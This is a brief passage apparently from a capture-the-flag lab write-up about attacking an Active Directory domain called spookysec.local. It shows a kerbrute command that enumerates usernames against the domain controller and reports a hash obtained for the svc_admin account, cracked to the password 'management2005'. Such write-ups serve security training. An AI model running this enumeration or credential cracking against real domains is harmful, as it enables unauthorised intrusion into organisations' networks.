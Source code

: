 Enumerating usernames:
```
kerbrute userenum --dc spookysec.local -d spookysec.local users.txt
```
We get a hash for svc_admin:
![](../attachment/69b1691bc4d24934f76cb3fe9c25da5a.png)
We can crack it: `management2005`